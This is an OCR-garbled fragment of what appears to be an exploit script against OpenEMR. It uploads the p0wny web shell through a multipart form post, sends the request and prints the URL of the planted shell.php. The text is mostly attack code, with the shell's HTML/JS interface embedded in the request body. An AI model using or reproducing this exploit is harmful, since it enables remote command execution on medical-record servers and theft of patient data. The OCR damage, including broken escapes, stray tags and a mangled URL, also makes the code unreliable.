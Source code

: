 _` / __| '_ \\ / _ \\ | (_)/\\/_  ..  _|<span></span>\n| |_) | |_| |\\ V  V /| | | | |_| | | (_| \__ \\ | | |  __/ | |_   |_      _|<span></span>\n| .__/ \___/  \_/\_/ |_| |_|\__, |\\ \__,_|___/_| |_|\___|_|_(_)    |_||_|  <span></span>\n|_|                         |___/  \____/                                  <span></span>\n                </div>\n

\\n

<div id=\"shell-input\">
\\n <label for=\"shell-cmd\" id=\"shell-prompt\" class=\"shell-prompt\">???</label>\\n

<div>
\\n <input id=\"shell-cmd\" name=\"cmd\" onkeydown=\"_onShellCmdKeyDown(event)\"/>\\n

</div>
\\n

</div>
\\n

</div>
\\n

</body>
\\n\\n

</html>
\\n\\r\\n-----------------------------31900464228840324774249185339\\r\\nContent-Disposition: form-data; name=\\"form_dest_filename\\"\\r\\n\\r\\n\\r\\n-----------------------------31900464228840324774249185339\\r\\nContent-Disposition: form-data; name=\\"form_education\\"; filename=\\"\\"\\r\\nContent-Type: application/octet-stream\\r\\n\\r\\n\\r\\n-----------------------------31900464228840324774249185339\\r\\nContent-Disposition: form-data; name=\\"bn_save\\"\\r\\n\\r\\nSave\\r\\n-----------------------------31900464228840324774249185339--\\r\\n"

1.  Send Exploit:

session.post(exploit_url, headers=header, data=body)

1.  Finish

path = '<http://>' + target_ip + ':' + target_port + openemr_path + '/sites/default/images/shell.php' print('[+] Webshell: ' + path)

</pre>
